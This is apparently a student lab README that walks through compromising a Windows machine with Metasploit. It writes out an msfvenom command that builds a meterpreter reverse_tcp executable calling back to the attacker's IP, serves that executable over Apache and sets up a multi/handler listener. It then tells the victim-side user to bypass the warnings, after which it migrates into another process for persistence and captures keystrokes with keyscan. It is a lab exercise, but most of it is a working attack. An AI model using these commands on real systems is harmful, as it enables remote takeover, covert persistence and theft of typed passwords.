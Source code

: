 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig 
![image](https://github.com/user-attachments/assets/0c0271df-5fd0-409f-86f3-60f807fafb87)

Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe 
![image](https://github.com/user-attachments/assets/f63246b7-05db-4d36-af7d-2a7d3acd8289)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/f3bc8ce8-cc95-449d-86da-8a4acebee028)

Start apache server sudo systemctl apache2 start 
![image](https://github.com/user-attachments/assets/6734da80-ead1-4c51-a226-47f4a75b911c)

Check the status of apache2 sudo apache2 status
![image](https://github.com/user-attachments/assets/7731f878-08db-419d-9f44-4037bd092037)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/user-attachments/assets/fd2913ba-561d-4447-ac60-40d484a911ad)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/11a1361f-9d37-4283-8d7e-2320481c19a0)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/user-attachments/assets/65ed28bd-cb21-4441-891d-a43360be8517)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name 
![image](https://github.com/user-attachments/assets/82226360-6c8b-45f1-b5ac-57fcc3f3ad7d)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/792c60b8-9373-42d6-b5b4-e6d0e2889863)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
